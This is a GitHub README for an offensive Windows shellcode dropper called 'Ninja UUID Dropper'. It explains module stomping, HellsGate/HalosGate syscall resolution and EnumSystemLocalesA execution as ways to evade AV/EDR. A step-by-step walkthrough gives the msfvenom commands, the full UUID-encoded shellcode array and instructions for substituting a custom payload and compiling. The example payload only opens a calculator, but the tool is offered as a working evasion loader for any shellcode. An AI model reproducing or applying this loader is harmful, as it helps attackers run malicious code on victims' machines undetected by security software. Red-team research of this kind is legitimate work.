

# Ninja UUID Dropper
Module Stomping, No New Thread, HellsGate syscaller, UUID Dropper for x64 Windows 10!



#### Created by [Bobby Cooke (@0xBoku)](https://twitter.com/0xBoku) with [Matt Kingstone(@n00bRage)](https://twitter.com/n00bRage)

## About
Typically shellcode is loaded into the processes Heap or the `VirtualAlloc()` API is used to reserve a private section of memory within the process. For the shellcode to execute, the allocated memory must be marked executable. This is typically done by calling the `VirtualProtect()` API to change the allocated memory from `RW` (Read-Write) to `RX` (Read-Execute). These executable memory sections are easy to detect when they are not backed by a module, such as the executable section of the host process or Dynamically Loaded Libraries (DLLs) executable code section. To evade this detection, Module Stomping can be used.

Module Stomping is where the malware will load a DLL into the processes memory using the `LoadLibrary()` API, change the permissions of the loaded libraries memory to `RW` (writable), overwrite the DLL memory with the shellcode, change the module-backed memory back to `RX` (executable), and then execute the shellcode from the DLL memory. When the memory is scanned, the shellcode will appear to be just the executable code from the loaded DLL. Therefor this may evade some AV/EDR dynamic memory scanners.

Sektor7 does a better job of explaining it, and I recommend you check out there courses if you'd like to dive deeper: [institute.sektor7.net](https://institute.sektor7.net/)

This dropper uses the Module Stomping technique described above, in combination with the:
+ Deobfuscates the shellcode payload from UUIDs
  + The UUID payload helps to decrease the shellcodes entropy, which can help evade some detection methods 
+ Crawls the in memory list of loaded modules to discover the base addresses of `ntdll.dll` and `kernel32.dll`
+ Resolves `NTAPI` & `WINAPI` APIs by using a custom implementation of `GetProcAddress()` written in Assembly
+ HellGate Technique to resolve the Windows System Calls dynamically by reading the memory of `ntdll.dll`
+ Uses HalosGate Technique to resolve the Windows System Calls if `ntdll.dll` is hooked by AV/EDR
+ Changes the memory protection of the DLL using syscalls
+ "No New Thread" technique which uses `EnumSystemLocalesA()` to execute the UUID decoded shellcode


## Walkthrough Example with MSF PopCalc
+ First you will need a raw binary file that contains your shellcode.
+ For this example we will use MetaSploit's MSFVenom to create a simple "Pop Calc" shellcode for x64 Windows 10.
  + This shellcode was created from a Kali Linux virtual machine. 
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
+ Now that we have our raw shellcode file `calc.bin` we will use the `bin2uuid.py` python3 script to convert our shellcode into an array of UUIDs.
+ For large shellcodes, I recommend piping the output from the python script to a file. Then transfer the file over to your windows workstation where you will be compiling the dropper with windows Visual Studios.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`
+ Copy the array of UUIDs to your windows workstation either via the copy-paste buffer or a file.
+ Open this project in Microsoft Visual Studios.
+ Within the `main.c` file, replace the `uuids[]` array with your array of UUIDs.

### Optionally Change Sacraficial DLL
+ You may optionally change the sacraficial DLL that has its `RX` section module stomped by our shellcode by changing the `sLib[]` array to a name of a different DLL.
+ Make sure that the DLL is large enough to hold your shellcode or else you may end up overwriting a neighbor DLL in memory of the process.
+  Use the `string2array.py` python script to convert the DLL name into an array of chars. 
  +  Alternatively just use a typical string method since we are not creating a Beacon Object File (BOF) or shellcode.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

### Compile with Visual Studios
+ Once you have made your changes, compile the EXE with Visual Studios
+ If you are using the example provided, a calculator should popup when you press the green play button within Visual Studios.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
- https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
- https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
- https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c
